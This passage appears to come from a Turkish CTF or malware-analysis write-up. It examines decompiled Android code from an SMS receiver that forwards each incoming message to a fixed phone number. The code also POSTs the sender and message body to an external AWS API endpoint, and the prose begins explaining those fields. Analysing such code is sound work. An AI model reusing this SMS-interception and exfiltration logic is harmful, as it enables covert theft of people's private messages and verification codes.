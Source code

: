 ```java
                smsManager.sendTextMessage("05557754509", null, sb4, null, null);
                try {
                    postRequest();
                } catch (IOException e) {
                    e.printStackTrace();
                }
                if (smsMessageArr[i].getMessageBody().equals("flag") && smsMessageArr[i].getOriginatingAddress().equals("1453")) {
                    counter.counter_x++;
                    Toast.makeText(context, String.valueOf(counter.counter_x), 1).show();
                }
                i++;
                str = sb4;
            }
        }
    }

    public void postRequest() throws IOException {
        String str = "application/json";
        MediaType parse = MediaType.parse(str);
        OkHttpClient okHttpClient = new OkHttpClient();
        JSONObject jSONObject = new JSONObject();
        try {
            jSONObject.put("message", counter.message);
            jSONObject.put("number", counter.number);
            jSONObject.put("counter", String.valueOf(counter.counter_x));
        } catch (JSONException e) {
            e.printStackTrace();
        }
        okHttpClient.newCall(new Builder().url("https://erici05hu8.execute-api.eu-west-1.amazonaws.com/production").post(RequestBody.create(parse, jSONObject.toString())).header("Accept", str).header("Content-Type", str).build()).enqueue(new Callback() {
            public void onFailure(Call call, IOException iOException) {
                Log.w("failure Response", iOException.getMessage().toString());
            }

            public void onResponse(Call call, Response response) throws IOException {
                StringBuilder sb = new StringBuilder();
                sb.append(counter.flag);
                sb.append(response.body().string());
                counter.flag = sb.toString();
            }
        });
    }
}
```

İlk dikkatimizi çeken `postRequest` kısmı ama ondan öncesinde counter.message ve counter.number ın

```bash
counter.message = smsMessageArr[i].getOriginatingAddress();
counter.number = smsMessageArr[i].getMessageBody();
```
			